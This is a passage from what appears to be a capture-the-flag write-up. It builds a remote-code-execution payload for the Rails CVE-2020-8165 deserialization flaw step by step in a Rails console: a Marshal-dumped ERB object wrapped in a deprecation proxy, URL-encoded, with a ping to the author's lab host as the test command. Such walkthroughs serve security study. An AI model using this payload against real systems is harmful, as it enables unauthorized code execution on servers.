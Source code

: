 Now I can run the console:

```

df@buntu:~/CVE-2020-8165$ bundle exec rails console
Running via Spring preloader in process 132700
Loading development environment (Rails 5.2.3)
irb(main):001:0>

```

I’ll start with a payload that will `ping` my host to see that it works:

```

irb(main):001:0> code = '`ping -c 1 10.10.14.19`'
=> "`ping -c 1 10.10.14.19`"

```

The next few lines are just copied from the POC:

```

irb(main):002:0> erb = ERB.allocate
=> #<ERB:0x00005565f02ea080>
irb(main):003:0> erb.instance_variable_set :@src, code
=> "`ping -c 1 10.10.14.19`"
irb(main):004:0> erb.instance_variable_set :@filename, "1"
=> "1"
irb(main):005:0> erb.instance_variable_set :@lineno, 1
=> 1

```

The next line in the POC will cause an error, because `payload` isn’t a command. It works if I add an `=` between `payload` and `Marshal`:

```

irb(main):006:0> payload = Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
=> "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"\x1C`ping -c 1 10.10.14.19`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"

```

Now I’ll use the `uri` module to encode and print the payload:

```

irb(main):010:0> require 'uri'
=> false
irb(main):011:0> puts URI.encode_www_form(payload: payload)
payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%22%1C%60ping+-c+1+10.10.14.19%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
=> nil

```
